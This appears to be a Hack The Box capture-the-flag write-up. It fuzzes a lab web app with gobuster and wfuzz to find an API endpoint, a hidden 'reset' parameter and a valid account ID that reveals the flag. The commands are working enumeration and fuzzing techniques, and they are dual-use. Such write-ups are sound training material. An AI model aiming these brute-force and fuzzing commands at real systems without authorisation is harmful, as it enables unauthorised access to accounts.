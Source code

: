 # Before Cracking:

Run the instance:
![](./in1.png)

Go to instance:
![](./in2.png)

# Trials

-   Start with gobuster
    `gobuster -u http://docker.hackthebox.eu:30029/ -w /usr/share/dirbuster/directory-list-2.3-medium.txt -t 50 -x php,txt,html,htm`
    ![](./1.png)

    > find a directory named `api`

-   gobuster with `api`
    `gobuster -u http://docker.hackthebox.eu:30029/api/ -w /usr/share/dirbuster/directory-list-2.3-medium.txt -t 50 -x php,txt,html,htm`
    ![](./2.png)

    > get `action.php`

-   go to the action.php page
    ![](./3.png)

    > we need to find the parameters

-   use `wfuzz`
    `wfuzz --hh=24 -c -w /usr/share/dirb/wordlists/big.txt http://docker.hackthebox.eu:30029/api/action.php?FUZZ=test`
    ![](./4.png)

    > fing parameter `reset`

-   go to the `action.php` with `reset=test`
    ![](./5.png)

-   use `wfuzz` to find account ID
    `wfuzz --hh=24 -c -w /usr/share/dirb/wordlists/big.txt http://docker.hackthebox.eu:30029/api/action.php?reset=FUZZ`
    ![](./6.png)

    > get accountID: 20

-   go to the `action.php` with `reset=20`
    ![](./flag.png)

# Result

![](./sub.png)
